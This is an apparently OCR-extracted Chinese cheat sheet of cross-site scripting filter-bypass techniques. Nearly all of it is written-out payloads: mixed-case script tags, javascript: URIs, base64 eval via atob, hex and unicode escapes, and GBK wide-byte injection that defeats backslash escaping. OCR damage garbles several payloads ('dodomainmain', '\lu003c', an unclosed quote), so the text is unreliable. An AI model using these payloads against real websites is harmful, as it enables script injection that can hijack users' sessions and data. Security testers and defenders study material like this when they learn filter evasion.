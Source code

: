 ​     "><script> alert(document.dodomainmain); </script>

​     

   **大小写绕过**

​     <scripT>alERT(1)</SCRiPT>

   **%0a 换行符**

​     在注释里面有输出的，%0a(换行符)绕过

​     

   **用+代替空格**

6.利用**Javascript伪协议**

​     javascript:alert(document.domain)

7.**编码绕过**

​     base64编码：

​         "><script>eval(atob("YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ== ));</script>

​         atob() :用于解码使用 base-64 编码的字符串。

​     URL编码

​     html编码

​     js编码 ...

​    双斜杠+ 16进制绕过：

​         <> ----> \x3c \x3e

​         \x 即为javascript可以识别的字符编码

​         Payload: \\x3cscript\\x3ealert(document. domain);\\x3c/script\\x3e

​     双斜杠+unicode绕过

​         <> ----> \lu003c \lu003e

​         Payload: \\lu003cscript\\u003ealert(document.domain);\\lu003c/script\\lu003e

8.**宽字节绕过**

   观察其编码格式

   GB2312、GBK、GB18030、BIG5、Shift_JIS等这些都是常说的宽字节，实际为两字节， 不仅gbk，韩文、日文等都是宽字节，都有可能存在宽字节注入漏洞

   使用了GBK等编码，我们就可以利用宽字节xss。构造如下payload：

​     %c0%22 /><script>alert(1)</script>//

​     %c0和%df一样，也是超出了GBK的范围，此时在执行过滤(被\转义时)操作时，源代码就变成了

​      <input type="text" id="name" value="%c0%5c%22 /><script>alert(1)</script>//">

   当过滤器发现了%22，然后加入转义（%5c）,但在解析的时候碰到%c0,于是%5c与%c0合并成一个特殊字符，我们的"得以保留。

​     <input type="text" id="name" value="%c0%5c%22 /><script>alert(1)</script>//">
